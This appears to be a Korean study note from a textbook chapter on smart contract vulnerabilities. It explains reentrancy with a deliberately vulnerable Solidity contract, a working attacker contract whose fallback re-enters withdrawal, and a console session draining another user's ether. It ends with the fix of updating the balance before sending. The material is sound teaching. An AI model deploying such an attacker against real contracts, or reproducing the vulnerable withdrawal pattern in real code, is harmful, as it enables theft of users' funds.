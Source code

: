 # 스마트 계약의 취약점과 공격 원리
> 이번 장에서는 스마트 계약에서 발생할 수 있는 대표적인 취약점을 설명하고, 예제와 함께 취약점의 구조 및 공격 원리, 또 이에 대한 대응책을 알아본다.

### 11.1 재진입성 문제
> 재진입성이란 함수가 여러 곳에서 동시에 호출되어도 문제가 발생하지 않는 함수의 성질을 말한다. 
> 재진입성을 만족하지 않는 함수를 편의상 재진입성 문제라고 부른다.

* 잔액 전액 인출 과정
  * 잔액 확인
  * 잔액 전액 인출 (호출한 쪽으로 송금됨)
  * 잔액을 0으로 설정
  
> 2번 과정에서 재진입성 문제가 발생할 가능성이 있다.
> 2번에서 송금을 받을 대상이 계약(Contract)인 경우, 대상 계약이 Fallback 함수를 악용하면 이 송금을 트리거 삼아 다시 호출(재귀) 하여 잔액을 확인하기 전에 모두 재차 송금 가능

> 206p 그림 11-1 을 참조하라.

### 공격 대상 계약
> VictimBalance.sol

```c
pragma solidity ^0.4.11;
contract  VictimBalance {
	// 어드레스 별로 잔고를 관리
	mapping (address => uint) public userBalances;

	// 메시지를 출력하기 위한 이벤트
	event MessageLog(string);
	
	// 잔고를 출력하기 위한 이벤트
	event BalanceLog(uint);

	/// 생성자
	constructor() public{
	}

	/// 송금받을 때 호출되는 함수
	function addToBalance() public payable {
		userBalances[msg.sender] += msg.value;
	}

	/// 이더를 인출할 때 호출되는 함수
	function withdrawBalance() public payable returns(bool) {
		emit MessageLog("withdrawBalance started.");
		emit BalanceLog(address(this).balance);
		
		// 1 잔고를 확인
		if(userBalances[msg.sender] == 0) {
			emit MessageLog("No Balance.");
			return false;
		}
		
		// 2 자신을 호출한 어드레스로 이더 반환
		if (!(msg.sender.call.value(userBalances[msg.sender])())) { revert(); }
		
		// 3 잔고 업데이트
		userBalances[msg.sender] = 0;
		
		emit MessageLog("withdrawBalance finished.");
		
		return true;
	}
}
```

### 공격 계약
> EvilReceiver.sol

```
pragma solidity ^0.4.11;
contract  EvilReceiver {
	
	// 공격 대상 컨트랙트의 어드레스
	address public target;

	// 메시지 출력용 이벤트
	event MessageLog(string);
	
	// 잔고 확인용 이벤트
	event BalanceLog(uint);

	/// 생성자
	constructor(address _target) public{
		target = _target;
	}
	
	/// Fallback 함수
	function() payable public{
		emit BalanceLog(address(this).balance);
		
		// VictimBalance의 withdrawBalance를 호출
		if(!msg.sender.call.value(0)(bytes4(keccak256("withdrawBalance()")))) {
			emit MessageLog("FAIL");
		} else {
			emit MessageLog("SUCCESS");
		} 
	}

	/// EOA로부터 송금받을때 사용하는 함수
	function addBalance() public payable {
	}

	/// 공격대상으로 송금할때 사용하는 함수
	function sendEthToTarget() public {
		if(!target.call.value(1 ether)(bytes4(keccak256("addToBalance()")))) {revert();} 
	}

	/// 공격대상에서 인출할때 사용하는 함수
	function withdraw() public {
		if(!target.call.value(0)(bytes4(keccak256("withdrawBalance()")))) {revert();} 
	}
}
```

### 전체 흐름
> 212p 그림 11-2 참조

* 각 어드레스의 역할
  * eth.accounts[0] : VictimBalance의 소유자이며, 계약을 생성한 계정
  * eth.accounts[1] : VictimBalance에 송금했던 정상 사용자의 계정
  * eth.accounts[2] : VictimBalance를 공격하는 계정. EvilReceiver의 소유자이며, 계약을 생성한 계정
  
* Script
  * VictimBalance 생성하기 : vb
  * EvilReceiver 생성하기 : er
  
  
```
정상적인 사용자가 VictimBalance에 송금 : eth.accounts[1] -> vb 송금
> vb.addToBalance.sendTransaction({from:eth.accounts[1], value:web3.toWei(2,"ether"), gas:5000000})
"0x186b9a9eb823c2baabca87bf70ab1c2029781faa5147ef00a1e030bbc18ef96b"

vb의 잔액은 2ETH 가 됨
> web3.fromWei(eth.getBalance(vb.address), "ether")
2

vb의 userBalances에서도 eth.accounts[1] 계정의 잔액이 2ETH 임을 알 수 있음
> web3.fromWei(vb.userBalances(eth.accounts[1]), "ether")
2

공격자가 er에 송금
> er.addBalance.sendTransaction({from:eth.accounts[2], value:web3.toWei(1,"ether"), gas: 5000000})
"0x007f2fec42a24d17c0f78746346b20201ba2481c91c25a6575942400ea7a42f2"

er의 잔액 1ETH 확인
> web3.fromWei(eth.getBalance(er.address), "ether")
1

EvilReceiver 를 거쳐 VictimBalance로 송금
> er.sendEthToTarget.sendTransaction({from:eth.accounts[2], gas:500000})
"0x21bb78f7cf2cc5063502bbdbcec6f93e3de96463f789c6f205786b689ae40d47"

er의 잔액 확인
> web3.fromWei(eth.getBalance(er.address), "ether")
0

vb의 userBalance에 기재된 er의 잔액 확인
> web3.fromWei(vb.userBalances(er.address), "ether")
1

vb의 잔액도 1eth 증가하여 3eth 가됨을 확인
> web3.fromWei(eth.getBalance(vb.address), "ether")
3

공격자가 EvilReceiver 를 통해 VictimBalance의 이더를 인출
> er.withdraw.sendTransaction({from:eth.accounts[2], gas:5000000})
"0x407dee7bac74598ec82032b94bf00900728ff9afdfcceb21e4dd7ab664011de5"

그런데, 1eth만 반환되고 vb에 2eth가 남아야 하는데...!!
남은 잔액이 0eth 이네?

> web3.fromWei(eth.getBalance(vb.address),"ether")
0

er의 잔액은 예상대로 0일 것이고.. (원래 가진게 1eth 였으므로)
> web3.fromWei(vb.userBalances(er.address), "ether")
0

어라? userBalances를 보면 eth.accounts[1]의 잔액이 2eth 인데 vb의 잔액에는 이미 없기 때문에 이를 반환해줄 수 없다.
그럼 eth.accountsp1[계정 몫의 2eh 는 어떻게 된것?
> web3.fromWei(vb.userBalances(eth.accounts[1]), "ether")
2

여기로 갔네...
> web3.fromWei(eth.getBalance(er.address), "ether")
3
```

### 코드 수정하기
> withdrawBalance 함수 수정하기
> 잔액 업데이트를 먼저 한 다음 자신을 호출한 쪽으로 이더를 반환 하도록 순서를 바꿈
> 전액을 업데이트하기 전에 반환할 금액을 amount 변수에 미리 빼놓기

```
/// 이더를 인출할 때 호출되는 함수
	function withdrawBalance() public payable returns(bool) {
		emit MessageLog("withdrawBalance started.");
		emit BalanceLog(address(this).balance);
		
		// 1 잔고를 확인
		if(userBalances[msg.sender] == 0) {
			emit MessageLog("No Balance.");
			return false;
		}

		// 2 잔고를 업데이트 하기 전에 송금할 금액 계산
		uint amount = userBalances[msg.sender];				

		// 3 잔고 업데이트
		userBalances[msg.sender] = 0;
		
		// 4 자신을 호출한 어드레스로 이더 반환
		if (!(msg.sender.call.value(amount)())) { revert(); }
		
		emit MessageLog("withdrawBalance finished.");
		
		return true;
	}
```

